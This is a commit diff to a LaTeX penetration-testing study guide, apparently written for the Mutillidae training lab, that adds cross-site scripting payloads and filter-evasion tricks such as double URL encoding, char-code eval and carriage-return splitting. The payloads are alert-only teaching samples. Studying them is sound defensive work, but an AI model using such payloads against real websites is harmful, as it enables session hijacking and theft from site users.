

Before and after one commit to birbirbir/Hack, a LaTeX paper (src/main.tex): two parts of page 16 of 24, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Merge remote-tracking branch 'origin/master'
# Conflicts:
#	src/main.tex

```diff
--- a/src/main.tex
+++ b/src/main.tex
@@ -650,6 +650,10 @@ Now you can use all Mutillidae features.
 XSS is all about embeeding unneded code within website.
 If application stores any kind of user input and shows this input to the user or allows you to store any kind of data within html, there is always risk that XSS can be done over the website.
 
+\paragraph{Hint} Sometimes you might need double encoding in your injection attacks.
+You will use hexagonal system.
+So for example you might want to use \q{\textbackslash} but it is encoded to \q{\%5c} so instead of \q{\textbackslash} you write: \q{\%255c} since \q{\%} is encoded as \q{\%25}.
+So \q{\%255c} yields double encoded \q{\textbackslash}.
 \subsubsection{Reflected} Injected code is used only once (it can be used many times indeed but is always used in time of sending it, copying, pasting, reloading the page etc).
 For example if your application uses somehow show the data passed through CGI to the end user (e.g. embeeds CGI parameters inside html) attack can be performed by passing invalid URL: \texttt{http://application.com/search.php?title=<script>action()</script>}.
 Another technique is to pass mailicious code after \# hash in URL: \texttt{}.
@@ -658,10 +662,21 @@ In such case there are thousands of scenarios.
 If you find an input that does not validate JavaScript as plain text but as code you won.
 Below are mentioned some input data (payloads) you may inject as JavaScript code.\newline
 
-\q{Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>} \newline
+\q{Test<iframe src=javascript:alert(1) width=0 height=0 style=display:none;></iframe>} is embeeding scripting in another tag.
+
+
 Payloads containing spaces can also be sent however the src cannot contain any spaces or quotations so it needs to be converted into char codes, combined into a string and evaluated: \newline
 \q{<iframe src=javascript:eval(String.fromCharCode.apply(null,[108,101,116,32,116,101,115,116,32,61,32,49,50,51,59,10,97,108,101,114,116,40,116,101,115,116,41,59])) width=0 height=0 style=display:none;></iframe>} \newline
-\paragraph{Hint} \q{\&lt;} and \q{\&gt;} are used for \q{<} and \q{>} respectively in encoding convention.
+
+\paragraph{Hint} \q{\&lt;} and \q{\&gt;} are used for \q{<} and \q{>} respectively in encoding convention.\newline
+
+\q{<body onload="javascript:alert()"} - using event to trigger scripting.\newline
+
+\q{<link rel="stylesheet" href="javascript:alert()"} - using dynamic href links.\newline
+
+\q{<img src="jav\&\#x0D;ascript:alert()"} - embedding carriage returns.\newline
+
+\q{');alert();//} - when devs use java script to echo data using \q{document.write}.\newline
 
 
 \subsubsection{DOM-based} Could be considered as refelected XSS. Injected script is located on client side (for instance: data stored after \# in URL (www.site.com/index.php\#<script></script>) is not transmitted to the server - it stays locally on client side or in DOM)-DOM-based XSS does not reach the server.
```
